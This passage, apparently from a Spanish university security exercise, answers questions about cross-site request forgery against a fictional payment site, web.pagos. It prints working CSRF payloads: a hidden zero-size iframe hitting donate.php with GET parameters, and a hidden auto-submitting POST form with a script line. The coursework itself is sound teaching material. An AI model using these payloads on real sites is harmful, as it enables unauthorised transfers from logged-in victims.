    Otra opción podría ser incluir en el comentario un iframe, que haga lo mismo que antes ha hecho la imagen, un ejemplo sería:

   |<p>Sin duda el mejor jugador de todos los tiempos!</p><p><iframe src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="width:0;height:0;border:0; border:none;"></iframe></p>|
   | :- |

   **c)** Pero web.pagos sólo gestiona pagos y donaciones entre usuarios registrados, puesto que, evidentemente, le tiene que restar los 100€ a la cuenta de algún usuario para poder añadirlos a nuestra cuenta.

   Explicad qué condición se tendrá que cumplir por que se efectúen las donaciones de los usuarios que visualicen el mensaje del apartado anterior o hagan click en el botón del apartado a).

   Para que se efectúen las donaciones, es requisito indispensable que el usuario esté autenticado en la web de web.pagos antes de leer el comentario con contenido malicioso, ya que se necesita que se usen las cookies de sesión de web.pagos que mantienen al usuario autenticado, es necesario por tanto que la sesión del usuario en web.pagos, aun se encuentre activa y no haya caducado, es también indispensable que el usuario este usando el mismo navegador en el que se autenticó en web.pagos, y web.pagos no debe de estar implementando medidas de seguridad como el uso de tokens CSRF o la verificación del origen de las solicitudes.

   **d)** Si web.pagos modifica la página donate.phpdpara que reciba los parámetros a través de POST, quedaría blindada contra este tipo de ataques? En caso negativo, preparad un mensaje que realice un ataque equivalente al de la apartado b) enviando los parámetros “amount” i “receiver” por POST.

   No, usar el método POST en lugar de GET, aunque POST es mas seguro que GET, sigue siendo vulnerable a ataques CSRF, a no ser que se implementen medidas de seguridad adicionales.

   Un ejemplo de mensaje malicioso que realice un ataque CSRF usando POST en lugar de GET podría ser:

   |<p>Sin duda el mejor jugador de todos los tiempos!</p><p><iframe style="display:none" name="csrf-frame"></iframe></p><p><form action="http://web.pagos/donate.php" method="POST" target="csrf-frame" id="csrf-form"></p><p>`  `<input type="hidden" name="amount" value="100"></p><p>`  `<input type="hidden" name="receiver" value="attacker"></p><p></form></p><p><script>document.getElementById("csrf-form").submit();</script></p>|
   | :- |

   Este mensaje, crea un formulario, que se envía de manera silenciosa cuando el usuario accede al comentario, en este caso, usando POST en lugar de GET.
